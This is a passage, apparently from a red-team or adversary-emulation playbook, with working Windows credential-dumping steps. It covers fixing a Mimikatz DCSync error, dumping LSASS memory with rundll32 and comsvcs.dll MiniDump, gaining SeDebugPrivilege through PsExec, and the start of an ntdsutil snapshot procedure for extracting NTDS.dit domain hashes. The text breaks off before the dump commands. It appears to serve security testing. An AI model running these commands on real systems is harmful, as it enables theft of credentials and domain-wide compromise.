 If Mimikatz is giving an error of `ERROR kuhl_m_lsadump_dcsync ; GetNCChanges: 0x00002105 (8453)`, try the following:

```
cmd> klist purge
cmd> gpupdate /force
```

## LSASS dumping using comsvcs.dll - via rundll32.exe

Use `rundll32.exe` to call the `MiniDump` export from `comsvcs.dll`

### Prerequisites

- Administrator rights
- SeDebugPrivilege

### Guidance

```
shell> rundll32.exe c:\windows\system32\comsvcs.dll MiniDump {{ lsass_pid }} {{ outpath }} full
```

This command must be run from a shell process that has `SeDebugPrivilege` enabled. 
PowerShell should work to this end. 

You can acquire `SeDebugPrivilege` for `cmd.exe` by launching it as `SYSTEM` via Sysinternals' `PsExec` (`psexec -sid cmd`). 
Alternatively, you can use the VBScript file from `modexp`: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/ (`cscript procdump.vbs lsass.exe`)

### Cleanup

- Delete the dump file

## Extract NTDS.dit Credentials - via ntdsutil.exe

Dump domain hashes for all domain users on the domain controller via ntdsutil.exe, which uses Volume Shadow Services (VSS)

### Prerequisites

- Elevated command execution on a DC
- Sufficient free disk space on the DC (verify size of ntds.dit file against free disk space)

### Guidance

Note the existing snapshots before dumping NTDS.dit:

```
cmd> ntdsutil.exe snapshot "list all" quit quit
```

Dump NTDS.dit using one of the following methods, noting the snapshot number. The output path should be an empty directory:
